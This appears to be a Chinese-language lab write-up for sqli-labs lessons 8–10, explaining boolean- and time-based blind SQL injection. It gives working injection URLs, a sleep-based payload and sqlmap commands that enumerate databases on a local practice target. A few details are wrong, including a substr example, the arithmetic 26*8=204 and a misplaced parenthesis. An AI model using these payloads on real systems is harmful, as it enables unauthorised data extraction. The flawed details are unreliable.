 # Lab8 Blind -- Boolean -- Single quote

## 基础

+ Blind SQL -- 盲注，向数据库发送true或者false的问题，根据应用程序返回的信息判断结果,就类似你送女朋友礼物，女朋友猜是口红吗，你只回答是或者不是，而不能给任何提示

+ 分类：基于布尔型 + 基于时间型

## 基于布尔型的盲注

+ 输入?id=1'啥都不显示，输入?id=1会显示`You are in...`可进行布尔型盲注！
  
+ 基础函数 
  
  + select length(database())
  + select substr(database(),1,1)
+ select ascii(substr(database(),1,1)) `>`/`=`/`<`
  
+ 实战演示

  ```
  http://localhost/sqli-labs-master/Less-8/?id=1'  and length(database()) = 8 --+
  ```

  ![9_2](.\images\9_2.png)

+ sqlmap测试打发

# Lab9_10 -- Blind -- Time Based

## 基于时间的盲注

+ lab9和10相比于lab8就更加坑爹了，lab9,10在数据库查询结果正确或错误的情况下都返回一样的东西！！所以只能用基于时间的盲注了
+ lab9 和lab10的区别仅仅是id用单引号和双引号的区别而已，maybe作者就是想让我们提高意识，在真实环境中测试的时候要充分考虑输入id的形式，抑或是让我们在设计网页的时候要考虑这个问题。
+ GET基于时间的盲注

```
if(ascii(substr(database(),1,1)=115,1,sleep(3)));
当数据库名第一个字母的ascii码等于115时，执行一次sleep(3)函数3s
substr(database(),1,1)表示从第一个字符开始数第一个字符
如substr(database(),1,1) --> security --> s
substr(database(),1,2) --> security --> e
substr(database(),2,1) --> security --> e
```

+ 通过微弱的时间差来判断我们的条件是否有被满足（如下图） -- 当然，需要尝试许多次，以盲注database() -- security为例，8个字母，一个字母查询时间大概为1s，最坏情况需要查询26*8=204s,也就是3分多钟

![9_1](C:\Users\Henry\Desktop\Sqli_Analysis\images\9_1.png)



## SQL测试大法

+ sqlmap测试大法

  -  --technique=TECH（BEUSTQ）
    - B：Blooean
    - E：Error
    - U：Union
    - S：Stack(不晓得)
    - T：Time
    - Q：Query

+ ```
  sqlmap.py -u "http://localhost/sqli-labs-master/Less-9/?id=1" --technique T --dbs
  基于时间盲注技术
  ```

+ ```
  sqlmap.py -u "http://localhost/sqli-labs-master/Less-9/?id=1" --technique B --dbs
  基于布尔型盲注技术
  ```
